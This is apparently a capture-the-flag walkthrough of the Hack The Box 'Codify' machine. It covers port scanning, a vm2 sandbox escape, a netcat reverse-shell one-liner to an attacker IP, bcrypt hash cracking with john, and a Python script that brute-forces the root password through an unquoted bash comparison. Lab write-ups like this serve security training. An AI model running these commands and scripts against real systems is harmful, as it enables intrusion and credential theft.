





# Diagnostic

## Machine Details 

- **CTF:** Hack The Box
- **Category:** Linux
- **Points:** 20

## Solution

Let's discover open ports with `nmap`:

```sh
$ nmap -A -T4 10.10.11.239
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-29 18:16 CET
Nmap scan report for 10.10.11.239
Host is up (0.030s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
|_  256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
80/tcp   open  http        Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
3000/tcp open  http        Node.js Express framework
|_http-title: Codify
8000/tcp open  http        SimpleHTTPServer 0.6 (Python 3.10.12)
|_http-server-header: SimpleHTTP/0.6 Python/3.10.12
|_http-title: Directory listing for /
8080/tcp open  http-proxy?
```

We need to append `codify.htb` to `/etc/hosts`:

```sh
echo "MACHINE_IP_ADDRESS codify.htb" | sudo tee -a /etc/hosts > /dev/null
```

Next, we can access it in browser *([http://codify.htb/](http://codify.htb/))*:



Let's see `About us` page:



It says it is using the `vm2` library to run `Javascript` code in a sandbox environment. And there is a link to `vm2` library on `GitHub`, let's see it:



We can find [CVE-2023–30547](https://www.uptycs.com/blog/exploitable-vm2-vulnerabilities?source=post_page-----7c9b3c0dfef5--------------------------------) vulnerability, which allows an attacker to bypass sandbox limitations and execute arbitrary code in the host environment. And [here](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) is the exploit itself, let's try it out:



It's working! So let's move on. We can try to establish `reverse shell` with command `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc YOUR_IP_ADDRESS 9001 >/tmp/f`. Also you need to execute `nc -l 9001` on your local machine to listen for incoming connections on port `9001`:



Under `/var/www/contact` we can find `tickets.db` file, let's see what's inside it:

```sh
svc@codify:/var/www/contact$ cat tickets.db
cat tickets.db
?T5??T?format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)??	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
??G?joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We can find password for `joshua` user, let's crack it, using [john](https://www.openwall.com/john/):

```sh
$ echo '$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2' > to_crack.txt
$ john --wordlist=dictionaries/rockyou.txt to_crack.txt
Warning: detected hash type "bcrypt", but the string is also recognized as "bcrypt-opencl"
Use the "--format=bcrypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Warning: invalid UTF-8 seen reading ./tools/john/run/john.pot
Cost 1 (iteration count) is 4096 for all loaded hashes
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
spongebob1       (?)     
1g 0:00:02:05 DONE (2024-02-29 19:55) 0g/s 10.73p/s 10.73c/s 10.73C/s teacher..boogie
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

So the credentials are `joshua:spongebob1`. Let's try to login with ssh:

```sh
$ ssh joshua@10.10.11.239
joshua@10.10.11.239's password: spongebob1
joshua@codify:~$
```

We are in! Let's see what we have here:

```sh
joshua@codify:~$ ls
user.txt
joshua@codify:~$ cat user.txt 
3118448e186ca7b84655a5175599b68f
```

We now need to escalate our priveleges to `root` user, let's begin with `sudo -l`:

```sh
sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can execute some `mysql-backup.sh` as root, let's see it's content:

```sh
cat /opt/scripts/mysql-backup.sh
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

The thing is, that if the right side of `$DB_PASS == $USER_PASS` is not quoted, bash uses pattern matching instead of interpreting it as a string. This means that if we enter wildcard `*`, it should bypass this authentication:

```sh
sudo /opt/scripts/mysql-backup.sh
Enter MySQL password for root: *
Password confirmed!
...
```

We can now write following script to get the full `root` password:

```py
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

Then we need to give to it executable permissions with `chmod +x script.py` and run it:

```sh
$ python3 script.py 
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```

Let's switch to `root:kljh12k3jhaskjh12kjh3`:

```sh
$ su root
Password: kljh12k3jhaskjh12kjh3
root@codify:/home/joshua#
```

Pwned! Let's get `root flag`:

```sh
root@codify:~# cat /root/root.txt 
0ebefebf5f0e76f36fad74821cdab175
```

## Final Flags

user: `3118448e186ca7b84655a5175599b68f`
root: `0ebefebf5f0e76f36fad74821cdab175`

*Created by [bu19akov](https://github.com/bu19akov)*